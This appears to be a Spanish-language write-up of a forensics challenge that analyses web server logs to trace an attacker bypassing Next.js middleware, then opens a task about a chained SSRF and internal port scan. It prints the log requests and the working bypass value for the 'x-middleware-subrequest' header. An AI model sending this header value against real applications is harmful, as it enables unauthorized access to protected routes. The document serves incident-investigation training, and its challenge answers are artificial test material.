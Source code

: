 
Revisando a fondo los logs en `interface.log`

```bash 
2025-04-01T11:37:58.163Z - 10.129.231.211 - GET - http://localhost:3000/api/bci/analytics - [["accept","*/*"],["accept-encoding","gzip, deflate, br"],["connection","close"],["host","10.129.231.215"],["user-agent","Mozilla/5.0 (Windows NT 10.0; WOW64; rv:45.0) Gecko/20100101 Firefox/45.0"],["x-forwarded-for","10.129.231.211"],["x-forwarded-host","10.129.231.215"],["x-forwarded-port","3000"],["x-forwarded-proto","http"],["x-real-ip","10.129.231.211"]]
2025-04-01T11:37:59.699Z - 10.129.231.211 - GET - http://localhost:3000/api/bci/analytics - [["accept","*/*"],["accept-encoding","gzip, deflate, br"],["connection","close"],["host","10.129.231.215"],["user-agent","Mozilla/5.0 (Windows NT 10.0; WOW64; rv:45.0) Gecko/20100101 Firefox/45.0"],["x-forwarded-for","10.129.231.211"],["x-forwarded-host","10.129.231.215"],["x-forwarded-port","3000"],["x-forwarded-proto","http"],["x-middleware-subrequest","middleware"],["x-real-ip","10.129.231.211"]]
2025-04-01T11:38:01.280Z - 10.129.231.211 - GET - http://localhost:3000/api/bci/analytics - [["accept","*/*"],["accept-encoding","gzip, deflate, br"],["connection","close"],["host","10.129.231.215"],["user-agent","Mozilla/5.0 (Windows NT 10.0; WOW64; rv:45.0) Gecko/20100101 Firefox/45.0"],["x-forwarded-for","10.129.231.211"],["x-forwarded-host","10.129.231.215"],["x-forwarded-port","3000"],["x-forwarded-proto","http"],["x-middleware-subrequest","middleware:middleware"],["x-real-ip","10.129.231.211"]]
2025-04-01T11:38:02.486Z - 10.129.231.211 - GET - http://localhost:3000/api/bci/analytics - [["accept","*/*"],["accept-encoding","gzip, deflate, br"],["connection","close"],["host","10.129.231.215"],["user-agent","Mozilla/5.0 (Windows NT 10.0; WOW64; rv:45.0) Gecko/20100101 Firefox/45.0"],["x-forwarded-for","10.129.231.211"],["x-forwarded-host","10.129.231.215"],["x-forwarded-port","3000"],["x-forwarded-proto","http"],["x-middleware-subrequest","middleware:middleware:middleware"],["x-real-ip","10.129.231.211"]]
2025-04-01T11:38:04.111Z - 10.129.231.211 - GET - http://localhost:3000/api/bci/analytics - [["accept","*/*"],["accept-encoding","gzip, deflate, br"],["connection","close"],["host","10.129.231.215"],["user-agent","Mozilla/5.0 (Windows NT 10.0; WOW64; rv:45.0) Gecko/20100101 Firefox/45.0"],["x-forwarded-for","10.129.231.211"],["x-forwarded-host","10.129.231.215"],["x-forwarded-port","3000"],["x-forwarded-proto","http"],["x-middleware-subrequest","middleware:middleware:middleware:middleware"],["x-real-ip","10.129.231.211"]]
 ✓ Compiled /api/bci/analytics in 250ms (606 modules)
 GET /api/bci/analytics 200 in 412ms
 PUT /api/bci/analytics 200 in 17ms
```

Vemos que el atacante empezó a manipular la cabacera "x-middleware-subrequest","middleware" primero con un valor, después con 2("x-middleware-subrequest","middleware:middleware") hasta que logró acceder. La ultima petición que se lanzó había un patrón con 4 palabras con "middleware"(middleware:middleware:middleware:middleware) por lo que podemos concluir que que con 5 palabras de esta fue que logró bypassear el middleware: 



<p style="color: #00ff00;">x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware</p>


---
**task 9** 

El atacante encadenó la vulnerabilidad con un ataque SSRF, lo que le permitió realizar un escaneo interno de puertos y descubrir una API interna. ¿En qué puerto es accesible la API?

Un **SSRF (Server-Side Request Forgery)** es una vulnerabilidad que permite a un atacante **hacer que el servidor haga solicitudes HTTP por sí mismo**, normalmente a direcciones **internas o protegidas** que el atacante **no debería poder alcanzar directamente**.
